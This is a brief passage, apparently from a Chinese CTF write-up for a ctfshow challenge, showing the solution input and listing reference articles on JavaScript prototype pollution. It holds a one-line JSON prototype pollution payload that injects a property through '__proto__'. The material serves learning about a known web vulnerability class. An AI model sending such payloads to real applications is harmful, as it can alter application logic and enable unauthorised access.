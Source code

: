 传入 payload

```plain
{"__proto__":{"ctfshow":"36dboy"}}
```

### 参考文章

[https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)  
[https://xz.aliyun.com/t/12383](https://xz.aliyun.com/t/12383)  
[https://forum.butian.net/share/1631](https://forum.butian.net/share/1631)
